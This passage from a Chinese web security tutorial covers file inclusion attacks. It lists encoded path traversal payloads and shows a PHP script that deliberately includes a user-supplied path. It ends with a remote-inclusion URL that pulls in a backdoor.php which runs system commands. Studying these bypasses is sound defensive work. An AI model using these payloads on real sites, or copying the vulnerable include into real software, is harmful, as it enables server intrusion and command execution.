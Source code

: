 **2.二次编码**

- ../ 
    - %252e%252e%252f
- ..\\ 
    - %252e%252e%255c

**3.容器/服务器的编码方式**

- ../ 
    - ..%c0%af
    - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
    - %c0%ae%c0%ae/
    - 注：java中会把”%c0%ae”解析为”\\uC0AE”，最后转义为ASCCII字符的”.”（点）
    - Apache Tomcat Directory Traversal(Apache Tomcat 目录遍历)
- ..\\ 
    - ..%c1%9c

遇到指定后缀的情况
---------

接着考虑指定后缀的情况。测试代码:

```php
<?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?>
```

### 解决：URL

url格式

```php
protocol://hostname[:port]/path/[;parameters][?query]#fragment
```

在远程文件包含漏洞（RFI）中，可以利用query（?）或fragment（#）来绕过后缀限制。那么利用条件就需要是：

1. `allow_url_fopen = On`
2. `allow_url_include = On`

#### 姿势一：query（?）

```php
index.php?file=http://remoteaddr/remoteinfo.txt?
```

则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`  
问号后面的部分`/test/test.php`，也就是指定的后缀被当作query从而被绕过。

##### 注意命令执行和写入木马

如：`http://x.x.x.x/fileinclude2.php?file=http://x.x.x.x/backdoor.php?`

backdoor.php中的php代码为`<?php system('whoami'); ?>`，结果成功命令执行了

